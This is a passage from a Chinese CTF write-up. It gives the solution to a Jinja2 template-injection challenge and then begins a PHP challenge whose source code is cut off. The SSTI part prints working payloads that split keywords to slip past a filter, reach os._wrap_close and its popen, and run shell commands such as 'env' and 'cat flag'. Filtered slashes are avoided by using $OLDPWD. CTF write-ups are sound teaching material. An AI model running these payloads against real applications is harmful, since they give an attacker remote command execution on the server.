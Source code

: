 ::: v-pre
找到`<class 'os._wrap_close'>`的下标137，使用它的`init,globals`下的popen函数，read结果读出来
:::

执行`ls /`失败，`/`被过滤

::: v-pre
BaseCTF{%set chr=''['_''_clas''s''_''_']['_''_bas''e_''_']['_''_sub''c''l''a''s''s''e''s_''_']()[137]['_''_in''it_''_']['_''_glob''als_''_']['po''pen']('ls /')['re''ad']()%}{%print(chr)%}
:::

凑`/`：

查看环境变量`env`

::: v-pre
BaseCTF{%set chr=''['_''_clas''s''_''_']['_''_bas''e_''_']['_''_sub''c''l''a''s''s''e''s_''_']()[137]['_''_in''it_''_']['_''_glob''als_''_']['po''pen']('env')['re''ad']()%}{%print(chr)%}
:::

看到环境变量`OLDPWD=/`

最终payload可以这样构造：

::: v-pre
BaseCTF{%set chr=''['_''_clas''s''_''_']['_''_bas''e_''_']['_''_sub''c''l''a''s''s''e''s_''_']()[137]['_''_in''it_''_']['_''_glob''als_''_']['po''pen']('cd $OLDPWD;ls;cat flag')['re''ad']()%}{%print(chr)%}
:::

## [Week3] 玩原神玩的 【复现】

考点：`?脚本编写，报文中%百分号处理，?密码学`

源码:

::: details
```php
<?php
highlight_file(__FILE__);
error_reporting(0);

include 'flag.php';
if (sizeof($_POST['len']) == sizeof($array)) {
  ys_open($_GET['tip']);
} else {
  die("错了！就你还想玩原神？❌❌❌");
}

function ys_open($tip) {
  if ($tip != "我要玩原神") {
    die("我不管，我要玩原神！😭😭😭");
  }
  dumpFlag();
}

function dumpFlag() {
  if (!isset($_POST['m']) || sizeof($_POST['m']) != 2) {
    die("可恶的QQ人！😡😡😡");
  }
  $a = $_POST['m'][0];
  $b = $_POST['m'][1];
  if(empty($a) || empty($b) || $a != "100%" || $b != "love100%" . md5($a)) {
    die("某站崩了？肯定是某忽悠干的！😡😡😡");
  }
  include 'flag.php';
  $flag[] = array();
  for ($ii = 0;$ii < sizeof($array);$ii++) {
```